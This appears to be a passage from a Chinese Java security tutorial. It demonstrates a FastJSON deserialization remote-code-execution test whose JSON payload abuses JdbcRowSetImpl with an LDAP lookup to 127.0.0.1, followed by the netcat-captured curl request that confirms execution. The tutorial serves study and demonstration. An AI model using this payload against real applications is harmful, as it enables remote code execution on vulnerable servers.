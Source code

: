 ```java
package com.anbai.sec.jndi.injection;

import com.alibaba.fastjson.JSON;

/**
 * Creator: yz
 * Date: 2019/12/28
 */
public class FastJsonRCETest {

	public static void main(String[] args) {
//			// 测试时如果需要允许调用RMI远程引用对象加载请取消如下注释
//		System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
		String json = "{\"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\": \"ldap://127.0.0.1:3890/test\", \"autoCommit\": \"true\" }";

		Object obj = JSON.parse(json);
		System.out.println(obj);
	}

}
```

程序执行后nc会接收到本机的curl请求表明漏洞已利用成功：

```
GET / HTTP/1.1
Host: localhost:9000
User-Agent: curl/7.64.1
Accept: */*
```

